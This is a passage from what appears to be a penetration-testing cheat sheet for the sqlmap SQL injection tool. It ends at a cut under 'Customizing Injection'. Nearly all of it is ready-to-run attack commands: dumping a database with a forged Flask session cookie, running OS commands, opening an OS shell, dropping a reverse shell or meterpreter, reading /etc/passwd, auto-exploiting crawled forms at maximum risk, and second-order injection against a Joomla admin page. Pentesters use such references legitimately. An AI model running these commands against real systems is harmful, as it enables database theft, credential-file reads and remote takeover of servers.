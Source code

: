 ```bash
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```

## Shell

```bash
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```

## Read File

```bash
--file-read=/etc/passwd
```

## Crawl a website with SQLmap and auto-exploit

```bash
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

## Second Order Injection

```bash
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

[**Read this post** ](second-order-injection-sqlmap.md)**about how to perform simple and complex second order injections with sqlmap.**

# Customizing Injection

## Set a suffix
